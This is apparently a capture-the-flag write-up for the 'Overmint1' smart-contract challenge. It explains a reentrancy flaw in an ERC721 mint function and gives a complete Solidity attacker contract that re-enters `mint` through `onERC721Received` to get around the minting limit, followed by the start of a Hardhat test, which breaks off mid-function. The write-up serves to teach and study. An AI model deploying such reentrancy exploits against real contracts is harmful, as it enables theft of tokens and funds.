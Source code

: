 ### Exploit

The goal of this challenge is to mint 5 tokens in a single transaction.

We can achieve this by performing a reentrancy attack, exploiting the fact that `mint` does not follow the checks-effects-interactions pattern since `_safeMint` calls `onERC721Received` on the receiving contract before updating `amountMinted`.

Here's an example of an attacker contract we can use:

_Overmint1Attacker.sol_
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./Overmint1.sol";

contract Overmint1Attacker is IERC721Receiver {
    Overmint1 public overmint1;

    constructor(address _overmint1Address) {
        overmint1 = Overmint1(_overmint1Address);
    }

    function attack() public {
        overmint1.mint();
        for (uint256 i = 1; i < 6; i++) {
            overmint1.transferFrom(address(this), msg.sender, i);
        }
    }

    // This function is called by the Overmint1 contract during _safeMint
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data)
        external
        override
        returns (bytes4)
    {
        // Check the number of tokens minted, and if it's less than 5, mint again
        if (overmint1.balanceOf(address(this)) < 5) {
            overmint1.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

_Overmint1.js_
```javascript
const { time, loadFixture } = require("@nomicfoundation/hardhat-network-helpers");
const { anyValue } = require("@nomicfoundation/hardhat-chai-matchers/withArgs");
const { expect } = require("chai");
const { ethers } = require("hardhat");

const NAME = "Overmint1";

describe(NAME, function () {
    async function setup() {
        const [owner, attackerWallet] = await ethers.getSigners();

        const VictimFactory = await ethers.getContractFactory(NAME);
        const victimContract = await VictimFactory.deploy();

        return { victimContract, attackerWallet };
    }

```